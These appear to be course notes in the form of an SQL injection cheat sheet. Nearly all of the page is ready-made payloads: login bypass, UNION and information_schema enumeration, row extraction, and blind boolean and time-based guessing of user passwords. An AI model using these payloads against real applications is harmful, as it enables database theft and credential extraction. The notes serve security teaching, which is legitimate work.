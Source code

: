 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_name OFFSET 3; -- - 
```
- Using CONCAT to add two strings together
```
1' union select concat("hello", "world")
```
- Using the CHAR function to convert ASCII values to character values
```
PRINT 'a' + CHAR(9)  + 'b' -- horizontal tab 
PRINT 'a' + CHAR(10) + 'b' -- line feed 
PRINT 'a' + CHAR(11) + 'b' -- vertical tab 
PRINT 'a' + CHAR(13) + 'b' -- carriage return
```

- Attacking with IF and SUBSTRNG statements
> SUBSTRING() extracts a character from a string via its index

```
0' or userid=if([condition],'1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='a','1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='b','1','0'); -- - 

1' or userid=if((select substr(password,1,1) from user where userid='1')='a',sleep(0.3),'0'); -- - 
1' or userid=if((select substr(password,1,1) from user where userid='1')='abc',sleep(0.3),'0'); -- - 
```

**More attack scenarios:**
- `delete from user where userid = '${userid}$'`
```
```